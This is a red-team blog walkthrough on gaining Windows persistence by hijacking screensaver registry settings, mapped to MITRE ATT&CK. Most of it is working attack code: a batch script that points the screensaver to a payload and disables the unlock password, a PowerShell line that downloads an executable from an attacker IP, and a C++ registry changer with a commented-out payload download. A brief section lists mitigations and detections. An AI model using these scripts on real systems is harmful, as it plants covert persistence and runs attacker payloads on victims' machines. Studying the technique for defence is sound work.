 # Persistence through Windows Screensaver Hijacking

> Austin Lai | August 17th, 2022

---

<!-- Description -->

Brief description: A simple walkthrough on Windows Screensaver Hijacking for persistence.

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [Persistence through Windows Screensaver Hijacking](#persistence-through-windows-screensaver-hijacking)
    - [Table of Contents](#table-of-contents)
    - [Introduction](#introduction)
    - [Simple Demo](#simple-demo)
    - [Additional Information](#additional-information)

<!-- /TOC -->

## Introduction

Screensavers are programs that execute after a configurable time of user inactivity, an adversaries may establish persistence by executing malicious content triggered by screensavers. This feature of Windows it is known to be abused by threat actors as a method of persistence.

Screensavers are Portable Executable (PE) files with a `.scr` extension by default. The Windows screensaver application `scrnsave.scr` is located in `C:\Windows\System32\` and `C:\Windows\sysWOW64\` on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (`HKCU\Control Panel\Desktop\`) and could be manipulated to achieve persistence:

· `SCRNSAVE.exe` - set to malicious PE path.
· `ScreenSaveActive` - set to '1' to enable the screensaver.
· `ScreenSaverIsSecure` - set to '0' to not require a password to unlock.
· `ScreenSaveTimeout` - sets user inactivity timeout before screensaver is executed.

This is low level persistence technique as the registry keys stored under “HKCU“ which does not require system privilege. Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain time-frame of user inactivity.

## Simple Demo

To demo this, we will set the screensaver path to basic batch script to load message box to display "You are Pwned!" with the idle time of 10 seconds when the user is inactive.

Sample basic batch script as below:

```batch
@echo off
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /d 1
reg add "HKCU\Control Panel\Desktop" /v ScreenSaverIsSecure /d 0
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\pwn.bat

echo @echo off > C:\Windows\Temp\pwn.bat
echo msg %username% You are Pwned! >> C:\Windows\Temp\pwn.bat
```

Adversaries may use tools such as Sliver C2 implants/beacon, reverse shell from msfvenom or even simple socat/powershell to callback to attacker machines. Simply added line below to download the malicious executable and change the path of “SCRNSAVE.EXE“ to malicious executable.

```batch
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d C:\Windows\Temp\plogin.exe

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.147.6/plogin.exe', 'C:\Windows\Temp\plogin.exe')"
```

We may also use C++ and compile as screensaver register key changer executable using command below:

```bash
x86_64-w64-mingw32-g++ -O2 screensaver-reg.cpp -o screensaver-reg.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Sample of C++ code as below:

```c++
#include <windows.h>
#include <string.h>
#include <iostream>
#include <urlmon.h>
#pragma comment(lib,"urlmon.lib")

using namespace std;

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  
  // Change this to point to YOUR EXE/Script
  const char* placeholder = "C:\\Windows\\Temp\\plogin.exe";
  
  // Change timeouts duration
  const char* timeouts = "5";
  
  // Enable screensavers
  const char* enabled_screensavers = "1";
  
  // Disabled password
  const char* disabled_password = "0";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)enabled_screensavers, strlen(enabled_screensavers));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)timeouts, strlen(timeouts));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaverIsSecure", 0, REG_SZ, (unsigned char*)disabled_password, strlen(disabled_password));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)placeholder, strlen(placeholder));
    RegCloseKey(hkey);
  }
  
  // Enable this if you need to download payload to the victim machines
  // HRESULT hr = URLDownloadToFile(0, L"http://192.168.147.6/plogin.exe", L"C:\Windows\Temp\plogin.exe", 0, NULL);
  // if (hr == S_OK){
  //   cout << "ok" << endl;
  // }
  return 0;
}
```

## Additional Information

This persistence technique mapping MITRE ATT&CK as below:

- TA0003/Persistence
- T1546/Event Triggered Execution
- T1546.002/Event Triggered Execution: Screensaver

To mitigate this, we should:

- Use Group Policy to disable screensavers if they are unnecessary.
- Block `.scr` files from being executed from non-standard locations.

Blue team should also include below for detection:

- Monitor process execution and command-line parameters of `.scr` files.
- Monitor changes to screensaver configuration changes in the Registry that may not correlate with typical user behavior.
- Though, many security solution including in-built Windows Defender will be able to monitor and detect this persistence method.

Assumption:

- Screensavers are NOT DISABLED by group policy.
- Bypass or managed to disabled Windows Defender.
- Session will drop when the user returns back and the system is not in idle mode.
- If intend to use powershell script, will need to bypass Windows Defender and allow powershell script to execute.

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB
